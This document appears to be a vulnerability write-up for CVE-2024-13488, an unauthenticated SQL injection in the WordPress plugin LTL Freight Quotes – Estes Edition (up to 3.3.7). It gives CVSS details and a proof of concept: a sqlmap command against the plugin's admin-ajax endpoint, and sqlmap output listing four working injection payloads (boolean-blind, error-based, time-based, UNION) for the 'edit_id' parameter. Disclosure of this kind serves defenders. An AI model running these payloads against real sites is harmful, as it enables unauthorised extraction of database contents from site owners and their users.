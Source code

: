 # CVE-2024-13488
LTL Freight Quotes – Estes Edition <= 3.3.7 - Unauthenticated SQL Injection

# Description

The LTL Freight Quotes – Estes Edition plugin for WordPress is vulnerable to SQL Injection via the 'dropship_edit_id' and 'edit_id' parameters in all versions up to, and including, 3.3.7 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

## Details

- **Type**: plugin
- **Slug**: ltl-freight-quotes-estes-edition
- **Affected Version**: 3.3.7
- **CVSS Score**: 7.5
- **CVSS Rating**: High
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
- **CVE**: CVE-2024-13488
- **Status**: Active

POC
---

```
sqlmap.py -u 'http://kubernetes.docker.internal:8929/wp-admin/admin-ajax.php' --data='action=en_wd_edit_warehouse&edit_id=1&wp_nonce=13db5f2e7d' --level=2 --dbms='MySQL '

[*] starting @ 15:35:17 /2025-02-20/

[15:35:18] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: edit_id (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: action=en_wd_edit_warehouse&edit_id=1 AND 8084=8084&wp_nonce=13db5f2e7d

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: action=en_wd_edit_warehouse&edit_id=1 AND GTID_SUBSET(CONCAT(0x7170787171,(SELECT (ELT(3874=3874,1))),0x717a627171),3874)&wp_nonce=13db5f2e7d

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: action=en_wd_edit_warehouse&edit_id=1 AND (SELECT 8170 FROM (SELECT(SLEEP(5)))Gvfy)&wp_nonce=13db5f2e7d

    Type: UNION query
    Title: Generic UNION query (NULL) - 20 columns
    Payload: action=en_wd_edit_warehouse&edit_id=1 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x7170787171,0x6e57584a4f524f56504572467179796c6a6c6c527872646a73464444414144707067736542565243,0x717a627171),NULL,NULL,NULL,NULL,NULL-- -&wp_nonce=13db5f2e7d
---
[15:35:18] [INFO] testing MySQL
[15:35:18] [INFO] confirming MySQL
[15:35:18] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: PHP 8.2.21, Apache 2.4.59
back-end DBMS: MySQL >= 8.0.0

```

